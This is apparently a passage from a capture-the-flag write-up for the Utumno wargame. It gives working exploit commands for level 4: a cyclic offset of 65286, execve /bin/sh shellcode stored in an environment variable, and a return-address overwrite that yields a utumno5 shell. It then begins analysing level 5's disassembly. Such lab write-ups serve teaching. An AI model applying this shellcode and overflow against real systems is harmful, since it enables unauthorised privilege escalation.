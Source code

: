 ```bash
──── threads ────
[#0] Id 1, Name: "utumno4", stopped 0x707a616a in ?? (), reason: SIGSEGV

gef>  shell pwn cyclic -l 0x707a616a
65286
```
The return address is overwritten with **0x707a616a** which calculates to an offset of `65286`.

### Exploit:
We can overwrite the return address with **65286-bytes** plus another 4-bytes for the return address. We need to put shellcode into an environment variable, find the address of the environment variable on the stack, and then overwrite the return address with that address.

```bash
utumno4@utumno:/tmp/tasks/utumno4$ export SHELLCODE=$(perl -e 'print "\x90"x20 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
utumno4@utumno:/tmp/tasks/utumno4$ ./find_env SHELLCODE
SHELLCODE is at 0xffffd5ac
utumno4@utumno:/tmp/tasks/utumno4$ /utumno/utumno4 65536 $(perl -e 'print "A"x65286 . "\xac\xd5\xff\xff"')
$ whoami
utumno5
```

---
---
## Utumno5 Solution
**Username:** utumno5\
**Password:** [REDACTED]

### Disassembly:
```c
char* hihi(char* p)
{
    char var_10;
    
    if (strlen(p) <= 0x13)
        return strcpy(&var_10, p);
    
    return strncpy(&var_10, p, 0x14);
}

int main(int argc, char** argv)
{
    if (argc && (argc != 1 || **argv))
    {
        puts("Aw..");
        exit(1);
        /* no return */
    }
    
    printf("Here we go - %s\n", argv[0xa]);
    hihi(argv[0xa]);
    return 0;
}
```
This challenge is very similar to **utumno2** however it works a little bit different.\
The firsty line `if (argc && (argc != 1 || **argv))` checks performs two checks:\
- If `argc` is not 0
AND
- If `argc` is not 1 OR the first character of `argv[1]` is not NULL.
